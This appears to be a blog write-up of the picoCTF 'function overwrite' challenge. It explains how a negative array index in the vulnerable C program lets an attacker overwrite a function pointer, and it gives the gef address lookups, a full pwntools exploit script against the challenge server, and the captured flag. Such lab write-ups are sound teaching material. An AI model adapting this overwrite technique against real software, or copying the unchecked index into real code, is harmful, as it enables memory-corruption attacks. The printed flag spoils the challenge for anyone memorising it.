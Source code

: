 ```yaml
---
layout: post
title: Out-of-bound Write - picoCTF function overwrite
tags: [CTF, pwn]
---
```

> Story telling class 2/2 
> 
> You can point to all kinds of things in C. Checkout our function pointers demo [program](https://artifacts.picoctf.net/c/229/vuln). You can view source [here](https://artifacts.picoctf.net/c/229/vuln.c). And connect with it using `nc saturn.picoctf.net 50379`

## Source Code
Three inputs, a string and two numbers. The string is used to calculate the "score" by suming the ASCII numbers.
```c
int calculate_story_score(char *story, size_t len)
{
  int score = 0;
  for (size_t i = 0; i < len; i++)
  {
    score += story[i];
  }

  return score;
}
```
Two numbers are used as an index in an array and the value to be modified. There's a out-of-bound write because negative indexes are possible in C.
```c
void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
```

## Attack 
The target is to overwrite `check` to be `easy_checker`, otherwise `check` will be `hard_checker` and it is impossible to get that score.
```c
void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  /* ... */

void hard_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 13371337)
  /* ... */
```
To achieve this, calculate the offset between `check` and `fun`, along with `easy_checker` and `hard_checker` and we can pass the check.
```
gef➤  info address fun
Symbol "fun" is at 0x804c080 in a file compiled without debugging.
gef➤  info address check
Symbol "check" is at 0x804c040 in a file compiled without debugging.
gef➤  info address easy_checker 
Symbol "easy_checker" is at 0x80492fc in a file compiled without debugging.
gef➤  info address hard_checker 
Symbol "hard_checker" is at 0x8049436 in a file compiled without debugging.
```

```python
from pwn import *

fun = 0x804c080
check = 0x804c040
easy = 0x80492fc
hard = 0x8049436
win = b'~'*10 + b'M'
assert sum(win) == 1337

p = process('./vuln') if args.LOCAL else remote('saturn.picoctf.net', 50379)
p.sendlineafter(b'>> ', win)
p.sendlineafter(b'than 10.\n', f'{(check-fun) // 4} {easy - hard}'.encode('ascii'))
p.interactive()
```

```
❯ python3 ./solve.py
[+] Opening connection to saturn.picoctf.net on port 50379: Done
[*] Switching to interactive mode
You're 1337. Here's the flag.
picoCTF{0v3rwrit1ng_P01nt3rs_53614882}
[*] Got EOF while reading in interactive
```